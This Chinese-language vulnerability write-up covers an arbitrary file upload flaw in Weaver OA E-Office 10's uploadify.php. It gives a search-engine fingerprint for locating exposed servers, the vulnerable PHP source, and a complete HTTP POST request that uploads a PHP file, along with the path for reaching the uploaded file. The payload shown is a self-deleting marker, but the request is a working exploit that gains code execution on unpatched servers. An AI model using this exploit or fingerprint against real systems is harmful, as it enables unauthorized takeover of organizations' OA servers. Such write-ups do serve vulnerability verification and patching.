 # 泛微OA E-Office uploadify 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office 在 uploadify.php 中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

泛微OA E-Office10

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520134445854](images/202205201344907.png)

```
<?php
include_once("inc/vulnerability.php");
if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    //获取扩展名
    if (!strrpos($tempFile, ".")) {
        echo "";
        exit;
    }
    $fileExt = substr($tempFile, strrpos($tempFile, ".") + 1);
    $attachmentID = createFileDir();
    $uploadPath = $_REQUEST["uploadPath"];

    if (trim($uploadPath) == "") {
        $targetPath = $_SERVER['DOCUMENT_ROOT'] . '/attachment/' . $attachmentID;
    } else {
        $targetPath = $uploadPath . '/sent/attachment/' . $attachmentID;
    }

    if (!file_exists($targetPath)) {
        mkdir($targetPath, 0777, true);
    }

    $targetFile = str_replace('//', '/', $targetPath) . "/" . $_FILES['Filedata']['name'];
    isIllegalUploadFile($targetFile);
    move_uploaded_file($tempFile, iconv("UTF-8", "GBK", $targetFile));
    echo $attachmentID;
}

function createFileDir() {
    global $ATTACH_PATH;
    mt_srand((double) microtime() * 1000000);
    $RADOM_ID = mt_rand() + mt_rand();
    if (!file_exists($ATTACH_PATH . $RADOM_ID))
        return $RADOM_ID;
    else
        createFileDir();
}

?>
```

验证POC

```
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 259
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
Accept-Encoding: gzip

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="2TrZmO0y0SU34qUcUGHA8EXiDgN.php"
Content-Type: image/jpeg

<?php echo "2TrZmO0y0SU34qUcUGHA8EXiDgN";unlink(__FILE__);?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![image-20230828150715083](images/image-20230828150715083.png)

访问：

```
/attachment/3466744850/xxx.php
```

